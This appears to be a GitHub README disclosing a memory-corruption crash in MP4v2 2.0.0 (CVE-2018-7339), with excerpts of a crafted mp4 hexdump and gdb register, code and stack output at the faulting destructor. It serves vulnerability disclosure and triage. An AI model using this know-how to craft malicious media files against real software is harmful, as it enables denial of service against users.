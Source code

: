 
# libmp4_bof

MP4v2_BOF
CVE Reference : https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7339

The MP4Atom class in mp4atom.cpp in MP4v2 through 2.0.0 mishandles
Entry Number validation for the MP4 Table Property, which allows
remote attackers to cause a denial of service (overflow, insufficient memory allocation, and segmentation fault) or possibly have unspecified other impact via a crafted mp4 file.


MP4v2 through 2.0.0

Mp4 Table Property that checks Entry number has a vulnerability with opening a maliciously craft mp4 file. It causes Memory crash and Denial-Of-Service.



 root@ubuntu:/home/wim# hexdump -C wim.mp4 | grep 63
	
 00000020  de 36 00 00 6c 69 62 66  61 61 63 20 31 2e 32 36  |.6..libfaac 1.26|
 
 00000330  3e ff af f3 c7 0b ba b2  a5 51 2a b2 63 43 ed ba  |>........Q*.cC..|
 
 00000500  ac 08 90 50 56 14 81 5c  70 aa 05 ef 34 1a a4 63  |...PV..\p...4..c|
 
 00000510  a8 63 26 5d 78 02 04 08  08 01 6a a7 72 00 85 50  |.c&]x.....j.r..P|
 
 00000630  cb 58 02 6a 02 02 80 2e  00 00 04 c0 12 01 70 00  |.X.j..........p.|
 
 00000880  9f ce 33 e1 f6 03 b3 e6  63 fd be d7 25 3f 38 d9  |..3.....c...%?8.|
 
 00000bd0  00 00 00 99 00 00 00 28  73 74 73 63 00 00 00 00  |.......(stsc....|
 
 00000c00  73 74 63 6f 00 00 00 00  00 00 00 03 00 00 00 20  |stco........... |
 
 00000c10  00 00 04 ab 00 00 08 df  00 00 00 20 63 74 74 73  |........... ctts|
 
	

 insufficient checking on Entry Number in MP4 Table Property- m_pProperties[i] 0xC1C ~ 0xC1F in /src/mp4atom.cpp

 When overflow occurs, small size of data is allocated and while reading data, crash occurs due to a memory reference error


 gdb-peda$ r ../wim.mp4
 Starting program: /home/wim/.libs/lt-mp4info ../wim.mp4
 /home/wim/.libs/lt-mp4info version 2.0.0
 ../wim.mp4:

 Program received signal SIGSEGV, Segmentation fault.

registers

 EAX: 0x80695c0 --> 0x0
 
 EBX: 0xb7fd5000 --> 0x171e40
 
 ECX: 0x0
 
 EDX: 0x0
 
 ESI: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 EBP: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 ESP: 0xbfffe890 --> 0x80695c0 --> 0x0
 
 EIP: 0xb7f0af85 (<mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4])
 
 EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
 

code

    0xb7f0af7e <mp4v2::impl::MP4Atom::~MP4Atom()+46>: xchg   ax,ax
    
    0xb7f0af80 <mp4v2::impl::MP4Atom::~MP4Atom()+48>: mov    edx,DWORD PTR [eax]
    
    0xb7f0af82 <mp4v2::impl::MP4Atom::~MP4Atom()+50>: mov    DWORD PTR [esp],eax
    
 => 0xb7f0af85 <mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4]
 
    0xb7f0af88 <mp4v2::impl::MP4Atom::~MP4Atom()+56>: cmp    DWORD PTR [esi+0x44],edi
    
    0xb7f0af8b <mp4v2::impl::MP4Atom::~MP4Atom()+59>: jbe    0xb7f0afa0 <mp4v2::impl::MP4Atom::~MP4Atom()+80>
    
    0xb7f0af8d <mp4v2::impl::MP4Atom::~MP4Atom()+61>: mov    edx,DWORD PTR [esi+0x4c]
    
    0xb7f0af90 <mp4v2::impl::MP4Atom::~MP4Atom()+64>: add    edi,0x1



Guessed arguments:
 arg[0]: 0x80695c0 --> 0x0

stack

 0000| 0xbfffe890 --> 0x80695c0 --> 0x0
 
 0004| 0xbfffe894 --> 0xb7d736bc --> 0xf9
 
 0008| 0xbfffe898 --> 0xffffffff
 
 0012| 0xbfffe89c --> 0xb7fd5000 --> 0x171e40
 
 0016| 0xbfffe8a0 --> 0xb7fd5000 --> 0x171e40
 
 0020| 0xbfffe8a4 --> 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 0024| 0xbfffe8a8 ("sttc\264W\354\267\020\225\006\b")
 
 0028| 0xbfffe8ac --> 0xb7ec57b4 (<mp4v2::impl::MP4StandardAtom::~MP4StandardAtom()+36>: mov    DWORD PTR [esp],esi)

Legend: code, data, rodata, value

 Stopped reason: SIGSEGV
 
 0xb7f0af85 in mp4v2::impl::MP4Atom::~MP4Atom (this=0x8069510, __in_chrg=<optimized out>) at src/mp4atom.cpp:66
	
 66         delete m_pProperties[i];

mp4v2-2.0.0(https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/mp4v2/mp4v2-2.0.0.tar.bz2) - v2-2.0.0

i
